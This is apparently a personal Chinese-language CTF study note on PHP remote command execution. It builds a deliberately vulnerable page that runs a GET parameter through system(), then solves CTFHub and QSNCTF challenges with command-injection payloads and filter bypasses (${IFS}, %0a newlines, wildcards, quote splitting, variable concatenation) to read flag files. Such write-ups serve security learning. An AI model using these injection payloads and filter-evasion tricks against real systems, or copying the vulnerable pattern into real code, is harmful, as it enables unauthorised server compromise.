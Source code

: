 ## RCE (远程命令执行)

## RCE(remote command/code execute ，远程命令执行)

命令执行一般发生在远程，故被称为远程命令执行。

```php
//一些可以命令执行的php参数
system("$a");
print shell_exec($a);
exec()
proc_open()
pcntl_exec()
```

简单构造一个站点:

```php
<?php
    $a=$_GET['cmd'];
if(isset($a)){
    system("$a");
}else{
    $a=phpinfo();
    echo $a;
}
?>
```

构造payload: `http://localhost/php/1.php?cmd=whoami`
返回: `never-x-10-ej\13461`

------

**CTFHUB实战**
1
显示了php源码 GET型 name是cmd 尝试RCE：
`?cmd=system("whoami")` 	可以执行 那就先找flag的位置
`?cmd=system("ls /")` 		查看根目录文件 发现文件flag_25583 打开文件
`?cmd=system("cat /flag_25583")` 拿到flag

------

2
![image-20231027155003540](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027155003540.png)

![image-20231027155031043](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027155031043.png)

那么我们可以构造一下: `127.0.0.1;ls`

```php
Array
(
    [0] => PING 127.0.0.1 (127.0.0.1): 56 data bytes
    [1] => 21801987819070.php
    [2] => index.php
)
```

21801987819070.php 这个文件我们很感兴趣 cat一下: `127.0.0.1;cat 21801987819070.php`
![image-20231027155158120](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027155158120.png)
拿到FLAG

------

3
过滤了cat的RCE
![image-20231027155550008](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027155550008.png)

PAYLOAD：

```php
127.0.0.1;ca""t flag_30172621528606.php
127.0|less flag_30172621528606.php    
127.0|more flag_30172621528606.php
```

![image-20231027155833634](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027155833634.png)


------

4
过滤了空格的RCE
文件是	flag_2385202442023.php

```php
127.01sd|cat<flag_2385202442023.php
Array
(
    [0] => <?php // ctfhub{c5abd191b780c231d4aec631}
)
```

```php
127.01sd|cat${IFS}flag_2385202442023.php
```

![image-20231027161352979](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027161352979.png)

### 一些绕过空格的方式

```

${IFS}$9
{IFS}
$IFS
${IFS}                                  			 1
$IFS$1 //$1改成$加其他数字貌似都行        				1
IFS       
< 									 			  1
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```

------

5
过滤了目录符的RCE
PAYLOAD:

```php
;ls
[1] => flag_is_here
127.0.0.1;cd flag_is_here;ls
[1] => flag_2411685810477.php
127.0.0.1;cd flag_is_here;cat flag_2411685810477.php
```

![image-20231027165027740](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027165027740.png)

------

6
过滤了字符的RCE 
`if (!preg_match_all("/(\||\&)/", $ip, $m)) {`

```php
flag_237961634527128.php
;cat flag_237961634527128.php
```

![image-20231027170309251](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027170309251.png)

------

7
综合过滤练习:

```php
if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
```

看到过滤了很多 但是还是可以绕过:

```php
?ip=127.0.0.1%0als#
//利用%0a 代替换行符绕过分号
看到 flag_is_here 目录
?ip=127.0.0.1%0acd${IFS}f*_is_here%0als  		
//注意这边的flag被replace了 所以可以用通配符f*自动查找
?ip=127.0.0.1%0acd${IFS}f*_is_here%0aless${IFS}fla*_6665323331831.php
```

![image-20231027172031725](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027172031725.png)

**过滤了/:**
`cd$IFS$1..;` 进入上一级目录 
`cd$IFS$1..;cd$IFS$1..;cd$IFS$1..;ls`

------

## QSNCTF 	real_ez_rce

说是简单其实特别难 （2023/10/27 21:49:38 花了三十分钟做出来这这道题....）

```
ls
flag.php index.php //只有两个文件
```

发现空格被过滤了 使用`$IFS$9`绕过空格 先查看index.php的源码 找找过滤方式:

```php
<?php
    error_reporting(0);
header("content-type:text/html;charset=utf-8");
if(isset($_POST['command'])){
    $command = $_POST['command'];
    if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $command, $match)){
        echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $command, $match);
        die("hacker! no symbol!");
    } else if(preg_match("/ /", $command)){
        die("hacker! no space!");
    } else if(preg_match("/bash/", $command)){
        die("hacker! no bash!");
    } else if(preg_match("/.*f.*l.*a.*g.*/", $command)){
        die("hacker! no flag!");
    }
    $a=shell_exec($command);
    print_r($a);
}
```

发现过滤了 空格 bash 所有flag的拼接方式 通配符 <>符号 {} [] / | 全被过滤了
先看看flag.php是不是最后的目标 查看所有路径:

```shell
//由于过滤的很严格 所以要一定技巧绕过 PAYLOAD
cd$IFS$9..;ls
cd$IFS$9..;cd$IFS$9..;ls
cd$IFS$9..;cd$IFS$9..;cd$IFS$9..;ls
发现就只有flag.php 所以我们把重点放在flag.php上
```

尝试cat:

```shell
cat$IFS$9f*.php
1hacker! no symbol!
```

### [重点]这里我们可以用字符串拼接的方式来绕过

```shell
a=ag;cat$IFS$9fl$a.php
```

ctrl + u 查看源代码 拿到flag ![image-20231027215659317](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027215659317.png)

------



















